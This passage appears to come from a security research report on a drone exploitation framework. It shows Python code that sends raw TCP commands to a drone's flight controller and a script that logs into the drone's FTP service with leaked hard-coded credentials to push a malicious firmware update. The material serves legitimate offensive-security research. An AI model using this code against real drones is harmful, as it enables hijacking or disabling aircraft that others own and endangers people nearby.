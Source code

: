 \begin{chaptercover}{Framework}
\begin{center}
\begin{lstlisting}[caption={Piece of code for sending a drone command}]
import socket

def send_command(ip, port, id, param):
    """
    :param ip:    drone's IP
    :param port:  drone's fly controller port
    :param id:    command identification number
    :param param: command set of parameters
    """
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip, port))
    s.send(b'{"CMD" : %d, "PARAM" : %s}' % (id, param))
    return s.recv(1024).strip() == b"0"
\end{lstlisting}\label{lst:dronesploit-drone-command}
\end{center}

As shown in Listing \ref{lst:dronesploit-drone-command}, simple TCP socket is required with drone's IP and port to send a dictionary holding the command identifying number and its parameters. Afterwards, drone's fly controller returns a value "\texttt{0}" for success and "\texttt{-1}" for failure.

\paragraph{Uploading modified firmware} Following the work of Subsection \ref{subsec:post-exploitation}, we were able to have a peek at the FTP commands necessary to open a connection and upload a new version of the firmware. Combined with the credentials discovered in the Subsection \ref{subsec:reverse-engineering}, we could successfully develop a script that allows to upload the modified version of the firmware to the drone, using a socket connection and a syntax analog to the module above.

\begin{center}
\begin{lstlisting}[caption={Piece of code for sending an evil firmware update}]
from ftplib import FTP

def send_update(ip, port, filename):
    ftp = FTP(ip, port)
    ftp.sendcmd("USER AW819")
    ftp.sendcmd("PASS 1663819")
    ftp.sendcmd("SYST")
    ftp.sendcmd("PWD")
    ftp.sendcmd("TYPE I")
    ftp.sendcmd("CWD /")
    ftp.sendcmd("PASV")
    with open(filename, 'rb') as f:
        ftp.storbinary("STOR 0.7.15.zip", f)
    ftp.quit()
    if send_command(ip, port, 71, '"0.7.15"'):
        time.sleep(10)
        return True
    return False
\end{lstlisting}\label{lst:dronesploit-firmware-update}
\end{center}


\end{chaptercover}
